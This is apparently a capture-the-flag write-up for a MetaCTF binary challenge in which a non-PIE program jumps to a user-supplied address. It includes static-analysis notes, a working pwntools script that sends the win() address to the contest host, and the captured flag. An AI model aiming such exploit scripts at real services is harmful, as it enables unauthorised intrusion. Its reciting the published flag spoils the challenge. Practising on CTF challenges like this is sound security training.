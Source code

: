 # Canary in the Bitcoin Mine - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/CanaryInTheBitcoinMine.gif)

---

## Challenge Summary

The binary prompts the user to enter a memory address and then directly jumps to it via a function pointer. Since the binary is not PIE-enabled, all function addresses remain static and easily retrievable.

The objective is to use a tool like IDA Pro, Ghidra, or nm to locate the address of the hidden win() function within the binary, and then input that address when prompted. The program will jump to it, executing the function and printing the flag or completing the challenge logic.

This is a classic ret2win-style task, requiring no memory corruption — just knowledge of the function's address.

## Binary Information

```bash
$ file where_we_jmping
```

![Alt text](img/2.png)

```bash
$ pwn checksec where_we_jmping
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

The main() function reads a user-supplied 64-bit memory address using scanf("%lx", &v4) and stores it in a function pointer. It then calls this pointer (v5()), effectively jumping to the user-provided address.
![Alt text](img/4.png)
Because PIE is disabled, all function addresses (including hidden ones) are fixed and visible. Using IDA Pro, we can locate the win() function easily in the .text segment. The function opens "flag.txt", reads its contents, and prints them character-by-character using putchar().
![Alt text](img/5.png)
There are no memory corruption vulnerabilities—this is a direct ret2win-style challenge, where the only requirement is to supply the correct address of win() when prompted.

The presence of stack canaries and NX is irrelevant here, as no overflow occurs. The lack of PIE is what enables the exploit.

---

## Exploit Strategy

No complex exploit is needed. This is a classic ret2win challenge.

Since PIE is disabled, the address of the win() function is static and can be retrieved using tools like IDA Pro, Ghidra, or nm. Once identified, the player simply inputs the address when prompted by the program.

The binary will then jump directly to that address and execute the win() function, which reads and prints the contents of flag.txt. No memory corruption, bruteforce, or bypass is required.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template where_we_jmping --host kubenode.mctf.io --port 30006
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'where_we_jmping')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30006)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

win_addr = b'0x4011a6'
io.recvuntil(b'Enter a memory address to jump to (as a hexadecimal, e.g., 0x401222): ')
io.sendline(win_addr)
for i in range(2) :
    io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The program takes a user-supplied memory address and directly jumps to it. With PIE disabled, function addresses like win() are static and easy to find. This allows the user to redirect execution without any memory corruption, making it a simple ret2win vulnerability.

## Flag

```
MetaCTF{jmp1ng_t0_th3_g00d_l00t}
```
